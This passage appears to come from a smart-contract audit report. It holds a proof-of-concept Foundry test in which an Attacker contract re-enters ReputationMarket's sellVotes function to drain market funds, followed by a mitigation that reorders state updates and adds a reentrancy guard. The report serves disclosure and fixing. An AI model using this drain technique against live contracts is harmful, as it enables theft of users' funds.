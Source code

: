 ```solidity
    
    // Start the attack
    function attack() external {
        attackCount = 0;
        market.sellVotes(profileId, true, 1);
    }
}

contract ReputationMarketTest is Test {
    ReputationMarket public market;
    Attacker public attacker;
    uint256 public profileId = 1;
    
    function setUp() public {
        // Deploy the contract
        market = new ReputationMarket();
        market.initialize(address(this), address(1), address(2));
        attacker = new Attacker(address(market));
        
        // Create a market
        market.addMarketConfig(1 ether, 100, 0);
        market.createMarketWithConfigAdmin(profileId, 1);
        
        // Prepare for the attack
        attacker.setup{value: 5 ether}(profileId);
    }
    
    function testReentrancy() public {
        // Record initial state
        uint256 initialFunds = market.marketFunds[profileId];
        
        // Execute the attack
        attacker.attack();
        
        // Verify the attack result
        uint256 finalFunds = market.marketFunds[profileId];
        assertGt(attacker.attackCount(), 0, "Reentrancy failed");
        assertGt(initialFunds - finalFunds, 1 ether, "Funds not drained");
    }
}


```

### Mitigation

The current implementation of the contract has a reentrancy risk due to the improper ordering of state updates and external calls. To mitigate this risk:

   ```solidity
   function sellVotes(...) external nonReentrant {
       // ... other logic ...
       
       // 1. Update state first
       marketFunds[profileId] -= fundsReceived;
       
       // 2. Make external call
       _sendEth(fundsReceived);
       
       // 3. Trigger event
       emit VotesSold(profileId, msg.sender, votesToSell, fundsReceived);
   }
   ```